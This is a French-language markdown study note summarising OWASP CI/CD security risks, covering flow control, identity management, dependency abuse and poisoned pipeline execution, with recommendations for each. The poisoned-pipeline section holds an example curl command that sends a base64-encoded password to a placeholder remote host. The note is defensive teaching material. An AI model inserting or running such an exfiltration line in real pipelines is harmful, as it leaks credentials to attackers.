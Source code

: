 # OWASP Top 10 CI/CD Security Risks

![](https://owasp.org/www-project-top-10-ci-cd-security-risks/assets/images/risks.png)
[Source : Owasp](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-01-Insufficient-Flow-Control-Mechanisms)


## CICD-SEC-1: Insufficient Flow Control Mechanisms

Les mécanismes de contrôle de flux insuffisants font référence à la capacité
d'un attaquant ayant obtenu des autorisations sur un système au sein du 
processus CI/CD à pousser à lui seul du code malveillant ou des artefacts dans le pipeline, 
en raison d'un manque de mécanismes qui imposent une approbation ou un examen supplémentaire.

---
Exemple : 
L’exécution d’analyses de sécurité dans les pipelines CI est une pratique courante. Checkov, un outil d'analyse de code statique pour IaC, est un exemple connu d'un tel scanner.

Ici, l'attaquant veut obtenir les droits de lectures sur un disque dur en écrasant le fichier de configuration ``Checkov`` initial.

Attaque : 
1. Clone du repo
2. Modification du fichier main.tf qui modifie les droits de lecture en publique
3. Création du fichier ``checkov.yaml``

---

### Recommandations
- Configurez les règles de protection des branches sur les branches hébergeant le code utilisé en production et dans d'autres systèmes sensibles
- Limitez l’utilisation des règles d'auto-merge et assurez-vous que, partout où elles sont utilisées, elles sont applicables à un minimum de contextes

--- 

## CICD-SEC-2: Inadequate Identity and Access Management

Les risques de gestion inadéquate des identités et des accès proviennent
des difficultés liées à la gestion de la grande quantité d’identités réparties dans les 
différents systèmes de l’écosystème d’ingénierie, du contrôle des sources au déploiement. 
L’existence d’identités mal gérées – tant humaines que programmatiques – augmente le potentiel et l’ampleur des dommages causés par leur compromission. 

- > Pas d'implémentaion du moindre privilège

---

### Recommandations
- Implémentation du moindre privilège

--- 

## CICD-SEC-3: Dependency Chain Abuse
Fait référence à une pratique de sécurité liée à la gestion des dépendances dans le contexte des pipelines CI/CD. Cette pratique met l'accent sur la nécessité de surveiller et de sécuriser la chaîne de dépendances d'un projet pour éviter les abus potentiels.
L'abus de la chaîne de dépendances entraîne la récupération et l'exécution par inadvertance d'un package malveillant localement lorsqu'il est extrait.

- Injection de packages (par ex npm) malveillant dans le pipeline

---

### Recommandations

Implementations de scan de dépendance

```yaml
security_scan:
  stage: security_scan
  script:
    - npm audit --audit-level=high
  only:
    - master
```

--- 

## CICD-SEC-4: Poisoned Pipeline Execution (PPE)
Un attaquant crée une nouvelle branche distante dans le référentiel, dans laquelle il met à jour le fichier de configuration du pipeline avec des commandes malveillantes destinées à accéder aux informations d'identification ou execution de code.

> Exemple sur gitlab 

Même sans avoir accès au retour des ci/cd, on peut envoyer les informations sur serveur distant.
```
curl -d creds="$(echo $PASSWORD | base64) http://monadresse.op
```

---

### Recommandations
- Assurez-vous que les pipelines exécutant du code non révisé sont exécutés sur des nœuds isolés, non exposés à des secrets et à des environnements sensibles.

